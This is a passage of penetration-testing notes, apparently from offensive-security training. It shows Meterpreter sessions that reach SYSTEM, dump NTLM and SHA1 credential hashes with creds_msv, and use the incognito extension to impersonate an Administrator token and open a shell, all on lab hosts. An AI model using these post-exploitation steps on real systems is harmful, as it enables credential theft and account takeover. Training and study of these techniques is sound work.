 ```shell
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============
Username Domain NTLM SHA1
DPAPI
-------- ------ ---- ---- -----
CLIENT251$ corp 4d4ae0e7cb16d4cfe6a91412b3d80ed4 5262a3692e319ca71ac2dfdb2f758e502adbf154
offsec corp e2b475c11da2a0748290d87aa966c327 8c77f430e4ab8acb10ead387d64011c76400d26e c10c264a27b63c4e66728bbef4be8aab
meterpreter >
```

### Dumping Tokens and Creds with incognito

```shell
Incognito Commands
==================

    Command              Description
    -------              -----------
    add_group_user       Attempt to add a user to a global group with all tokens
    add_localgroup_user  Attempt to add a user to a local group with all tokens
    add_user             Attempt to add a user with all tokens
    impersonate_token    Impersonate specified token
    list_tokens          List tokens available under current user context
    snarf_hashes         Snarf challenge/response hashes for every token

meterpreter > use incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u
Delegation Tokens Available
========================================
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
poultry\poultryadmin
sandbox\Administrator
Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON

meterpreter > impersonate_token sandbox\\Administrator
[+] Delegation token available
[+] Successfully impersonated user sandbox\Administrator

meterpreter > getuid
Server username: sandbox\Administrator
meterpreter > shell
Process 7276 created.
Channel 3 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
sandbox\administrator
```